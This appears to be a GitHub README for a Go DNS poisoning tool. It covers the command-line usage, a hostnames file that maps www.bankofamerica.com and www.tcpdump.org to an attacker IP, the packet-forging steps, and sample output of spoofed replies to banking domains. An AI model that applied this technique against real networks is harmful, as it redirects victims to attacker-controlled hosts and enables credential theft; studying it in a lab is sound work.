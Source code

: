 # DNS_poison_attack
On-path DNS poisoning attack tool.

Specification
sudo go run dnspoison.go [-i interface] [-f hostnames] [expression]
NOTE: PLEASE TYPE THE FULL URL WITH "WWW" IN THE SEARCH BOX IN WEB BROWSER. EG. www.tcpdump.org , www.bankofamerica.com

Usage:
The code takes 3 parameters

1) -i interface.
The interface to be monitored can be specified. Default interface is found by FindAllDevs, if no interface is specified. Invalid interface 
name will produce errors.

2) -f hostnames
hostnames txt file provides the addresses that need to be spoofed with the IP address of the attacker. If hostname file is not mentioned, the 
program will poison all the requests.
example: sample.txt
192.168.2.128 www.tcpdump.org
192.168.2.128 www.bankofamerica.com

3) BPF expression
If a BPF expression is provided, then the network traffic will be filtered based on the filter expression. Enter the BPF filter in quotes.

Just like tcpdump, there is no particular order in which the parameters need to be entered.
The program needs to run in sudo to avoid permission realted errors.
NOTE: PLEASE TYPE THE FULL URL WITH "WWW" IN THE SEARCH BOX.

Implementation Details:
Once all the parameters are gathered from the command line arguments, there a the poison function works in the following manner:
- BPF filter is applied and the interface is detected if it is not already provided by the user.
- Layers are extracted from the packet.
- Question and answer layer is obtained form the DNS layer.
- A new pacet is created where the destination and sourse IP, MAC and port are swapped.
- The answer is modified and the attacker's IP is added.
- The new packet is sent to the victim.
- If the spoofed packet reached the victim before the true packet, the the attack is successful.

Output sample
1) sudo go run dnspoison.go -f sample.txt
interface=  ens33
hostfile=  sample.txt
bpfstr=  
map: map[www.bankofamerica.com:192.168.2.128 www.tcpdump.org:192.168.2.128]
Packet captured. Checking Request...
Request :  teredo.ipv6.microsoft.com
Packet captured. Checking Request...
Request :  www.google.com
Packet captured. Checking Request...
Request :  www.gstatic.com
Packet captured. Checking Request...
Request :  content-autofill.googleapis.com
Packet captured. Checking Request...
Request :  www.yahoo.com
Packet captured. Checking Request...
Request :  s.yimg.com
Packet captured. Checking Request...
Request :  search.yahoo.com
Packet captured. Checking Request...
Request :  www.tcpdump.org
Response sent
Packet captured. Checking Request...
Request :  udc.yahoo.com
Packet captured. Checking Request...
Request :  pagead2.googlesyndication.com
Packet captured. Checking Request...
Request :  service.idsync.analytics.yahoo.com
Packet captured. Checking Request...
Request :  us-east-1.onemobile.yahoo.com
Packet captured. Checking Request...
Request :  cms.analytics.yahoo.com
Packet captured. Checking Request...
Request :  ups.analytics.yahoo.com
Packet captured. Checking Request...
Request :  www.bankofamerica.com
Response sent

As seen in the output, response is sent to www.bankofamerica.com and www.tcpdump.org .

2) sudo go run dnspoison.go
Packet captured. Checking Request...
Request :  translate.googleapis.com
Response sent
Packet captured. Checking Request...
Request :  www.google.com
Response sent
Packet captured. Checking Request...
Request :  www.tcpdump.org
Response sent
Packet captured. Checking Request...
Request :  www.gstatic.com
Response sent
Packet captured. Checking Request...
Request :  www.bankofamerica.com
Response sent
Packet captured. Checking Request...
Request :  teredo.ipv6.microsoft.com
Response sent
Packet captured. Checking Request...
Request :  www.chase.com
Response sent
Packet captured. Checking Request...
Request :  www.wellsfargo.com
Response sent
